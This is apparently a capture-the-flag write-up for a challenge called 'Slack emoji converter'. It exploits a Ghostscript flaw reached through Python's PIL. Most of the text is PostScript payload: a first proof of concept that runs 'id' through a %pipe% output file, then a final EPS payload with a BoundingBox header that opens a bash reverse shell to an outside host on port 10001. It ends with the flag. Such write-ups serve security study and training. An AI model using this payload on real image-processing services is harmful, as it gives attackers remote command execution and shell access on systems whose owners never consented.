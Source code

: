 # Slack emoji converter 

There is a GhostScript Vulnerbility, because using Python PIL library.

POC is :

```
%!PS
userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%id) currentdevice putdeviceprops
```

But this POC failed, because it can't parse the image size.

So we need to add `BoundingBox`.

Final POC (reverse shell):

```
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100
userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%bash -c 'bash -i >& /dev/tcp/kaibro.tw/10001 0>&1') currentdevice putdeviceprops
```


`TWCTF{watch_0ut_gh0stscr1pt_everywhere}`
